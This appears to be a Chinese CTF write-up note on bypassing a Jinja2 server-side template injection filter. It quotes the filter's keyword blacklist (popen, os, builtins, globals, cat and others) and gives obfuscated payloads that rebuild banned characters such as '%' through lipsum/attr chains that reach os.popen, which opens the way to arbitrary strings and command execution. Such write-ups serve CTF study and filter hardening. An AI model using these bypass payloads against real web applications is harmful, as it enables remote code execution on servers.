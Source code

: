 tags:: [[CTF/SSTI/Jinja]]

- # waf
	- ```python
	  blacklist = [
	      # 普通ban符号
	      '_', '\\', '\'', '"', '[', ']', '~', "+",
	      # 一堆奇葩ban
	      '-', ':', '/', '*',
	      # 正常keyword ban
	      'request', 'class', 'init', 'arg', 'config', 'app', 'self', 'chr',
	      'request', 'url', 'builtins', 'globals', 'base', 'pop', 'popen', 'subclasses',
	      'flashed', 'os', 'open', 'read', 'cd', 'cat',  'getitem', 
	      # ???
	      'count', 'not', 'index','length', 'ord', 'import',
	      # ????
	      '124', '47', '59', '99', '100', '37', '94', '96', '0', '38',
	  ]
	  
	  ```
	- 可以看到filter还是可以用的
- # 针对两位数字的waf
	- 原版本中针对数字生成的规则还是太少，焚靖生成的数字表达式要么太长，要么无法绕过
	- 这里可以用`(8,8,8,8,8)|sum`的形式计算出需要的数字，成功绕过
- # 针对字符`%`的waf
	- 需要在使用时手动加入变量
		- ```python
		  full_payload_gen.add_context_variable("{%set unn=(lipsum|escape|batch(22)|list|first|last)%}{%set ppp=(((lipsum|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),(dict|trim|list|batch(3)|first|last),({}|select()|trim|list|batch(9)|first|last),({}|select()|trim|list|batch(13)|first|last),(dict|trim|list|batch(4)|first|last),(dict|trim|list|batch(3)|first|last),(dict|trim|list|batch(5)|first|last),unn,unn)|join)))|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),({}|select()|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(12)|first|last),({}|select()|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(24)|first|last),unn,unn)|join)))(((unn,unn,({}|select()|trim|list|batch(13)|first|last),(lipsum|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),({}|select()|trim|list|batch(4)|first|last),(dict|trim|list|batch(5)|first|last),unn,unn)|join))|attr(((unn,unn,({}|select()|trim|list|batch(2)|first|last),({}|select()|trim|list|batch(3)|first|last),(dict|trim|list|batch(12)|first|last),(lipsum|trim|list|batch(7)|first|last),(dict|trim|list|batch(12)|first|last),({}|select()|trim|list|batch(3)|first|last),(lipsum|trim|list|batch(24)|first|last),unn,unn)|join)))((((dict|trim|list|batch(2)|first|last),(dict(h=x)|join),({}|select()|trim|list|batch(6)|first|last))|join))((31,6)|sum)%}{%set pppc=()%}", {
		      "ppp": "%"
		  })
		  ```
	- ~~现阶段还没有可以绕过的方法~~请看VCR：
		- ```jinja2
		  {%set prrc=((dict(dict(dict(a=1)|tojson|batch(2))|batch(2))|join,(dict(c=x)|join),dict()|trim|last)|join).format(((9,9,9,1,9)|sum))%}
		  ```
	- 有了`%`就有`%c`，就可以生成任意字符串了，剩下的就不用多说了
- # 针对任意字符生成的waf
	- `[`被封，可以使用`batch(INDEX)|first|last`的形式获得列表的第i个元素
- # 针对字符拼接的waf
	- 可以使用`(unn,unn)|join`的形式进行绕过
	- 还可以使用`|replace` filter将一个字符串拼接在另一个字符串的前面
-